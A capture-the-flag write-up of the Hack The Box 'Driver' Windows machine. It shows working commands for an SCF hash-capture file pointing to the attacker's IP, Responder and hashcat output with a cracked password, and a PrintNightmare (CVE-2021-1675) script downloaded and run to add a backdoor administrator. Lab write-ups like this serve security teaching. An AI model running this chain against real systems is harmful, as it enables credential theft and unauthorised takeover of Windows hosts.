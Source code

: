 ```yaml
---
layout: post
title: Hack The Box - Driver
disass:
  - url: /assets/images/htb-driver/driver-1.png
    image_path: /assets/images/htb-driver/driver-1.png
    title: description
  - url: /assets/images/htb-driver/driver--2.png
    image_path: /assets/images/htb-driver/driver--2.png
    title: other
categories:
  - hackthebox
slug: hack-box-driver
tags:
  - cve
  - windows
  - smb
  - printnightmare
---
```

## Challenge description

[https://app.hackthebox.com/machines/Driver](https://app.hackthebox.com/machines/Driver)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1,65535 -- -A -sC

PORT     STATE SERVICE      REASON  VERSION
80/tcp   open  http         syn-ack Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        syn-ack Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-17T02:16:50
|_  start_date: 2022-01-16T20:40:33
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25778/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 15033/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s
```

### SMB Enumeration

All tools I used reported no open share

### Web Enumeration

Browsing to http://driver.htb gets us to a basic authentication login prompt. After trying a couple usual default password, I manage to log in with admin/admin.

After logging in, we get to what looks like a printer admin page.

On the "Firmware Updates" tab, we can upload a file and the page says :

*Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.*

It's a pretty clear indication that "someone" or "something" will check the file we upload.

After trying some upload tricks, well, no tricks are needed. There are no restriction what so ever.

## Exploitation && Foothold

Let's read this again:

*Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.*

It says that our uploaded file will be placed on their file share which implies that someone will browse the share.

Let's do a SCF file attack

Per [Pentestlab.blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/):

*However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.*

*When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.*

```
$ cat << EOF > exploit.scf       
[Shell]
Command=2
IconFile=\\10.10.14.74\share\exploit.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

We can now upload our exploit using the firmware update page and wait for responder to capture hashes:

```
$ sudo responder -w --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[...]

[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:90915e30a4d61b55:EFD5982FC730F2132B289A758EF1AB26:010100000000000017D7481F870BD801DADD4A94693D22FF00000000020000000000000000000000
[...]
```

Now, let's crack it and use the password to log on the target:

```
$ hashcat -a 0 -m 5600 hashes /opt/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

[...]
TONY::DRIVER:a4a1daba2e76ad05:597b6b92e2114645d6f9cf39f3a315ff:01010000000000007212b4fe870bd8011aa3e96919e9f60000000000020000000000000000000000:liltony
[...]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents> more c:\users\tony\desktop\user.txt
(redacted)
```

## Privilege Escalation

To escalate our privileges to administrator, we'll be exploiting a recently discovered vulnerability affecting the Windows print spooler.

First, download the [exploit](https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1) and open a winrm session using Evil-Winrm using the -s option to load the folder containing the exploit.

The exploit script will allow us to create a new admin local user.

```
$ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -O /tmp/driver/CVE-2021-1675.ps1

2022-01-17 08:55:58 (7.46 MB/s) - ‘CVE-2021-1675.ps1’ saved [178561/178561]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents>
```

When Evil-Winrm is opened with the -s (--scripts) option, all the scripts inside the folder becomes directly accessible within the winrm session. Let's load and run the exploit to create our backdoor user.

```
*Evil-WinRM* PS C:\Users\tony\Documents> CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> invoke-nightmare -newuser h3x -newpass h3xp4ss!
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user h3x as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

*Evil-WinRM* PS C:\Users\tony\Documents> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
h3x
The command completed successfully.

*Evil-WinRM* PS C:\Users\tony\Documents> exit
```

Now let's use our new user to get admin privileges.

```
$ evil-winrm -i $ip -u h3x -p h3xp4ss!                         

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\h3x\Documents> more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x
